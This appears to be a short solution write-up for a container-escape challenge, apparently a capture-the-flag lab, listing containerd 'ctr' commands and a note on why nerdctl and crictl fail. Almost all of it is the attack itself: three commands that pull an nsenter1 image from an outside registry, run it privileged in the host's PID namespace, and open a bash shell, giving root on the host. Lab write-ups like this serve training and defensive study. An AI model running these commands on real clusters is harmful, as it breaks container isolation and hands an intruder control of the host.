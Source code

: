 # Solution

## Ctr CLI

```bash
ctr i pull r.jpts.uk/nsenter1:latest
ctr run -d --rm --privileged --with-ns pid:/proc/1/ns/pid r.jpts.uk/nsenter1:latest r00t
ctr t exec -t --exec-id x r00t bash
```

## Non-Solutions

* Nerdctl doesn't work as we don't mount in the necessary dirs
* crictl doesn't work due to CNI incompatibiity with calico - [explanation](https://github.com/containerd/cri/issues/520#issuecomment-355362760)
